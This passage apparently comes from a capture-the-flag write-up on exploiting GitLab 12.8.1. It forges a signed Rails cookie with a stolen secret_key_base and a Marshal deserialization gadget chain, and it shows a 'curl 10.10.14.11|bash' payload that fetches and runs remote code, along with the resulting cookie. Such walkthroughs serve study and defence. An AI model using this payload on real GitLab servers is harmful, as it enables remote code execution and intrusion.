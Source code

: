 ```bash
root@darkness:~# docker run -it gitlab/gitlab-ee:12.8.1-ee.0
[...INSTALLATION...]
root@darkness:~# docker exec -it a87efa8fd79b bash
root@a87efa8fd79b:/# 
```

Next, we have to overwrite the `secret_key_base` in the `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file.

```bash
root@a87efa8fd79b:/# sed -i "s/secret_key_base: .*/secret_key_base: $SECRET_KEY_BASE/g" /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```

Now let us start a rails console to forge our cookie:

```bash
root@a87efa8fd79b:/# gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1-ee (13bae744d5c) EE
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> 
```

Next we execute the payload:

```ruby
irb(main):001:0> request = ActionDispatch::Request.new(Rails.application.env_config)
=> #<ActionDispatch::Request:0x00007fe36d5d3b50
[...]
irb(main):002:0> request.env["action_dispatch.cookies_serializer"] = :marshal
=> :marshal
irb(main):003:0> cookies = request.cookie_jar
=> #<ActionDispatch::Cookies::CookieJar:0x00007fe36df55bb0
[...]
irb(main):004:0> erb = ERB.new("<%= `curl 10.10.14.11|bash` %>") # RCE payload
=> #<ERB:0x00007fe36c588d90 [...]
irb(main):005:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.11 port 80: Connection refused
=> ""
irb(main):006:0> cookies.signed[:cookie] = depr
[...]
irb(main):007:0> puts cookies[:cookie] # Print cookie
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiVyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0LjExfGJhc2hgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--9082496eb7908d8da233d501ad73a6d75a920281
=> nil
```
